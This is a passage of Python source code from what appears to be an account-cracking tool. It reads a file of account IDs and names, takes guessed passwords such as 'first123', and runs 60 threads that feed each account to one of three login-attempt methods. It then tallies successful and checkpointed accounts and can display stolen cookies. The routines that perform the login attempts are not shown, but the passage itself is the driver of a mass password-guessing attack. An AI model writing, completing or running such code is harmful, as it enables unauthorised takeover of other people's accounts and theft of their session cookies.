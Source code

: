                                print(' PUT FILE EXAMPLE :  /sdcard/heroes.txt..')
                                linex()
                                file = input(' PUT FILE PATH\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' FILE LOCATION NOT FOUND ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print('[1] METHOD (1)')
                                print('[2] METHOD (2)')
                                print('[3] METHOD (3)')
                                linex()
                                mthd=input(' CHOOSE : ')
                                linex()
                                clear()
                                plist = []
                                try:
                                        ps_limit = int(input(' HOW MANY PASSWORDS DO YOU WANT TO ADD ? '))
                                except:
                                        ps_limit =1
                                linex()
                                clear()
                                print('\033[1;32m EXAMPLE : first last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f' PUT PASSWORD {i+1}: '))
                                linex()
                                clear()
                                print(' DO YOU WENT SHOW COOKIES :? (Y/N): ')
                                linex()
                                cx=input(' CHOOSE : ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=60) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        
                                        print(' TOTAL ACCOUNT : \033[1;32m'+total_ids+f' ')
                                        print("\033[1;37m CRACKING STARTED...\033[1;37m")
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                elif mthd in ['3','03']:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print(' THE PROCESS HAS COMPLETED')
                                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                                linex()
                                input(' PRESS ENTER TO BACK ')
                                os.system('python heros.py')
                        elif xd in ['2','02']:
                                pak()
                        elif xd in ['3','03']:
                                exit()
